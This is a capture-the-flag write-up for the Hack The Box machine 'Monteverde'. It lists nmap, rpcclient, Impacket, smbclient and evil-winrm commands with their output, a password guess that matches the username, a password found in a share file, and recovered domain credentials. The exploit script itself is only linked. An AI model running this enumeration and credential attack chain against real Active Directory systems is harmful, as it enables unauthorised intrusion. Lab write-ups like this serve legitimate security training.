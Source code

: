 # Monteverde
## NMap
`nmap -A -T5 -p- 10.10.10.172`

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-24 14:46 CET
Nmap scan report for 10.10.10.172
Host is up (0.054s latency).
Not shown: 65518 filtered ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-03-24 13:01:22Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
49775/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=3/24%Time=5E7A0FEC%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Timing level 5 (Insane) used
No OS matches for host
Network Distance: 2 hops
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -48m05s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-03-24T13:03:52
|_  start_date: N/A

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   53.68 ms 10.10.14.1
2   54.11 ms 10.10.10.172

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 434.17 seconds
```

`nmap -n -sV --script "ldap*" -p 389 monteverde.htb` -> result [here][2]


## Enumerating RPC

`rpcdump.py 10.10.10.172 -p 135 > rpcdump.log`

`rpcclient -W workgroup -c querydispinfo -U '' -N monteverde.htb`

```
index: 0xfb6 RID: 0x450 acb: 0x00000210 Account: AAD_987d7f2f57d2       Name: AAD_987d7f2f57d2  Desc: Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.
index: 0xfd0 RID: 0xa35 acb: 0x00000210 Account: dgalanos       Name: Dimitris Galanos  Desc: (null)
index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0xfc3 RID: 0x641 acb: 0x00000210 Account: mhope  Name: Mike Hope Desc: (null)
index: 0xfd1 RID: 0xa36 acb: 0x00000210 Account: roleary        Name: Ray O'Leary       Desc: (null)
index: 0xfc5 RID: 0xa2a acb: 0x00000210 Account: SABatchJobs    Name: SABatchJobs       Desc: (null)
index: 0xfd2 RID: 0xa37 acb: 0x00000210 Account: smorgan        Name: Sally Morgan      Desc: (null)
index: 0xfc6 RID: 0xa2b acb: 0x00000210 Account: svc-ata        Name: svc-ata   Desc: (null)
index: 0xfc7 RID: 0xa2c acb: 0x00000210 Account: svc-bexec      Name: svc-bexec Desc: (null)
index: 0xfc8 RID: 0xa2d acb: 0x00000210 Account: svc-netapp     Name: svc-netapp        Desc: (null)
```
## GetADUSer Impacket

`GetADUsers.py -all megabank.local/ -dc-ip 10.10.10.172`

```
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Querying 10.10.10.172 for information about domain.
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
Guest                                                 <never>              <never>             
AAD_987d7f2f57d2                                      2020-01-02 23:53:24.984897  2020-03-24 06:18:32.499762 
mhope                                                 2020-01-03 00:40:05.908924  2020-03-24 14:42:29.953052 
SABatchJobs                                           2020-01-03 13:48:46.392235  2020-03-24 12:19:19.202876 
svc-ata                                               2020-01-03 13:58:31.332169  <never>             
svc-bexec                                             2020-01-03 13:59:55.863422  <never>             
svc-netapp                                            2020-01-03 14:01:42.786264  <never>             
dgalanos                                              2020-01-03 14:06:10.519660  <never>             
roleary                                               2020-01-03 14:08:05.832167  <never>             
smorgan                                               2020-01-03 14:09:21.629084  <never>             
```
***SABatchJobs:SABatchJobs*** can log via smb

## Smbclient

`smbclient -L //10.10.10.172 -U SABatchJobs`

`smbclient //10.10.10.172/users$ -U SABatchJobs`

inside Directory mhope there is a file [azure.xml][3] containing a password

***mhope:4n0therD4y@n0th3r$***

## Evil win

`ruby evil-winrm.rb -i monteverde.htb -u mhope -p 4n0therD4y@n0th3r\$`

## Azure exploit
Run [a.ps1][1]
***administrator:d0m@in4dminyeah!*** login via evil win 

[#]://
[1]: a.ps1
[2]: nmap-ldap.txt
[3]: azure.xml

![htbbadge](https://www.hackthebox.eu/badge/image/272787)
